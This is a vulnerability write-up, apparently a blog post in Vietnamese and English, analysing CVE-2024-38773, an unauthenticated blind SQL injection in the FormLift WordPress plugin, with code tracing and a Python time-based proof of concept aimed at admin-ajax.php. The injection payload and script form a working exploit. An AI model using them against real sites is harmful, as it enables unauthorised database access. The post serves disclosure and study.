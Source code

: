 ```yaml
---
layout: post
title:  "CVE-2024-38773 - Unauthenticated Blind SQL Injection Analysis"
date:   2025-10-30 21:44:56 +0700
categories: wordpress
---
```

# Info:

Type: Blind SQL Injection

Plugin Name: **FormLift for Infusionsoft Web Forms**

Version: < 7.5.18

**Base Score:** [**9.8 CRITICAL**](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2024-38773&vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H&version=3.1&source=NIST)

**Vector:**  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H


WPScan: [WPSCAN](https://wpscan.com/vulnerability/907f2dfb-90eb-4420-a845-b7260e64ea45/)

# PoC:

Tại hàm `formlift_submitV2` trong file `/wp-content/plugins/formlift/modules/form/submit.php`, phát hiện tham số `$formId` được nhận trực tiếp từ `$_POST[’form_id’]` mà không thực hiện lọc dữ liệu

![image.png]({{ site.url }}/assets/images/CVE-2024-38773/image-1.png)

Sau khi biến `$formId`  được gán dữ liệu, hàm `do_acction` sẽ gọi đến  hook **`formlift_before_submit`.** Khi `do_action()` được gọi, mọi hàm đã đăng ký với hook đó đều sẽ được thực thi. 

Kiểm tra trong source code, phát hiện hàm **`formlift_before_submit`**được đăng kí xử lý khi `do_action( 'formlift_before_submit', $formId );` được gọi. 

![image.png]({{ site.url }}/assets/images/CVE-2024-38773/image-2.png)

Hàm **`formlift_before_submit`** nhận vào tham số `formID` với giá trị được truyền vào từ hàm `do_action(…)`. Biến `formId` được truyền trực tiếp  vào hàm query dữ liệu `formlift_get_form_impressions`

![image.png]({{ site.url }}/assets/images/CVE-2024-38773/image-3.png)

PoC check

```python
import requests
from datetime import datetime, timezone
import time

url = "http://localhost:8080/wp-admin/admin-ajax.php"

data = {
    "action": "formlift_submit_form",
    "form_id": "1 OR IF(MID(@@version,1,1)=8,sleep(2),1)=2" // check version 8
}

# Record start time (timezone-aware)
start_dt = datetime.now(timezone.utc)
start_ts = time.time()
print(f"Request start: {start_dt.isoformat()} (UTC)")

response = requests.post(url,  data=data)

# Record end time and compute duration
end_dt = datetime.now(timezone.utc)
end_ts = time.time()
duration_ms = (end_ts - start_ts) * 1000
print(f"Request end:   {end_dt.isoformat()} (UTC)")
print(f"Duration: {duration_ms:.2f} ms | Status: {response.status_code}")

print("--- response body ---")
print(response.text)
```

![image.png]({{ site.url }}/assets/images/CVE-2024-38773/image-4.png)